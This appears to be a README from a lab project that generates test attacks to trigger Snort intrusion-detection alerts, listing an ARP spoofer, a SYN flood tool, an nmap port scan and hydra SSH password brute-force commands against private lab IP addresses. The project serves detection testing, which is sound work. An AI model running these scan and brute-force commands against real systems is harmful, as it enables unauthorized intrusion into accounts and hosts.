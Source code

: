 # src
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **Arp-Spoofer**: 

 - **Python-SYN-Flood-Attack-Tool**: Tool to be used for the Syn Flood Attack. I have issues to set the correct interface at scapy to send the packets to the VM so I could not test it. 
  
- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```
 
 - **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```
